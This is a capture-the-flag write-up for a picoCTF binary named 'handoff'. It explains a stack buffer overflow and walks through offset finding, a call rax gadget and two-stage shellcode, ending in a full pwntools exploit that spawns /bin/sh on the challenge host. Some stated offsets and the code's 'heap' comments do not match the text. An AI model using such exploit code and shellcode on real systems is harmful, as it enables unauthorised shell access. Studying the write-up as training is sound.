




# Handoff Exploit Writeup

## Overview

The binary `handoff` is a vulnerable program that allows a user to interact with a menu system for sending messages and giving feedback. It contains a stack buffer overflow vulnerability in the `feedback` buffer, which can be exploited to gain shell access by injecting shellcode.

---

## Binary Protections (checksec)

```
Arch:     amd64-64-little  
RELRO:    No RELRO  
Stack:    No canary found  
NX:       NX disabled  
PIE:      No PIE  
```

### Implications

* **NX disabled**: Stack is executable — we can run shellcode directly.
* **No stack canary**: Buffer overflow won’t crash before returning.
* **No PIE**: Binary addresses are fixed, so gadgets like `call rax` have static addresses.

---

## Vulnerable Code (C Source Analysis)

```c
char feedback[8];
...
fgets(feedback, NAME_LEN, stdin); // NAME_LEN is 32
```

> Note: After this gets executed, the `rax` register points to `feedback`.

### Issue:

`feedback` is only 8 bytes, but `fgets` allows writing up to 32 bytes, leading to **buffer overflow**.

---

## Memory Layout of Stack Frame (simplified)

```
|--------------------------|
| Return Address             | <-- We want to overwrite this                    |
| -------------------------- |
| Saved RBP (8 bytes)        |
| -------------------------- |
| feedback[8 bytes]          | <-- Start of input buffer (also RAX after fgets) |
| -------------------------- |
```

To reach the return address:

* `feedback`: 8 bytes
* `saved RBP`: 8 bytes
* Return address: **offset = 16 bytes**

---

## Exploit Strategy

### Goal:

Execute arbitrary shellcode by jumping to the `feedback` buffer using a gadget: `call rax`.

---

### Step 1: Find the return address offset

We first need to find the offset between the `feedback` buffer and the return address.
We can do this using cyclic patterns (De Bruijn Sequences).



Offset to return address = **16 bytes**

---

### Step 2: Find offset between `msg` and `feedback`

We need to determine the offset between the `msg` buffer and the `feedback` buffer by calculating their distance in memory.

To list local variables in `r2`, use:

```bash
afvd
```



This gives the address of each local variable.

---

#### But why is `msg` not shown directly?

Because it is part of a struct:

```c
typedef struct entry {
    char name[8];    // 8 bytes
    char msg[64];    // 64 bytes
} entry_t;           // Total: 72 bytes
```

So `msg` follows `name` — that’s why it doesn’t appear as a separate variable.

From the output, the address of `msg` is `0x7fffffffdbd8`.
And the address of `feedback` is also available.
Now subtract them:



Result: **`0x2CC`**

This is the offset between `msg` and `feedback`.

We’ll use it in our trampoline shellcode:

```asm
sub rax, 0x200
sub rax, 0xcc
```

---

### Step 3: Send shellcode to the stack

We send the full `/bin/sh` shellcode via the message system, which writes into the stack.

---

### Step 4: Trigger the overflow

Now we exploit the overflow in `feedback` by writing the trampoline shellcode and overwriting the return address with a `call rax` gadget.

We find the gadget using `ROPgadget`:

```bash
ROPgadget --binary handoff | grep rax
```

Output:

```
0x0000000000401014 : call rax   # <== This is what we’ll use
```

---

### Step 5: Final Control Flow

1. `vuln()` returns and executes `call rax`.
2. `call rax` jumps to `feedback`, where the trampoline shellcode lives.
3. Trampoline shellcode jumps to `msg`, where our real shellcode is.

---

### Why Two Stages?

We can't place full shellcode into `feedback` due to space constraints.
Instead:

* Stage 1: Trampoline shellcode in `feedback` (just 20 bytes)
* Stage 2: Full `/bin/sh` shellcode placed in `msg` via menu

---

## Exploit Code (Python/pwntools)

```python
from pwn import *

# === Setup context and load binary ===
context.binary = binary = ELF('./handoff', checksec=False)
context.terminal = ['tmux', 'splitw', '-h']  # Used with GDB debugging
context.log_level = 'debug'  # Show detailed logs during exploit

# === Start process (local or remote) ===
REMOTE = True
HOST = 'shape-facility.picoctf.net'
PORT = 53475

if REMOTE:
    p = remote(HOST, PORT)
else:
    p = process('./handoff')

# === Program interaction helpers ===
def create_recv(name):
    p.sendline(b'1')
    p.sendline(name)

def send_message(idx, message):
    p.sendline(b'2')
    p.sendline(str(idx).encode())
    p.sendline(message)

# === First stage: jmp shellcode to pivot to heap shellcode ===
jmp_shellcode = asm('''
    nop
    nop
    nop
    nop
    nop
    sub rax, 0x200
    sub rax, 0xcc
    jmp rax
''')

# === Second stage: execve("/bin/sh", NULL, NULL) ===
shellcode = asm('''
    lea rdi, [rip + binsh]
    xor esi, esi
    xor edx, edx
    mov eax, 59
    syscall

    binsh:
    .string "/bin/sh"
''')

# === Gadget to trigger control flow ===
CALL_RAX = p64(0x401014)

# === Send shellcode into heap via message system ===
create_recv(b'a' * 8)
send_message(0, shellcode)

# === Trigger overflow with jmp shellcode + return address ===
p.sendline(b'3')
p.sendline(jmp_shellcode.ljust(20, b'a') + CALL_RAX)

# === Shell ===
p.recvrepeat(1)
p.interactive()

```

---

## Final Payload Layout

```
[ trampoline shellcode ]   <- feedback buffer (RAX points here)
[ padding (16 bytes)    ]
[ address of call rax   ]   <- Overwrites return address
```

* We pad the trampoline shellcode to 20 bytes so `fgets` doesn't crash.
* `call rax` jumps to `feedback`.
* Trampoline shellcode jumps to `msg`, where `/bin/sh` lives.

---

## Output:



---
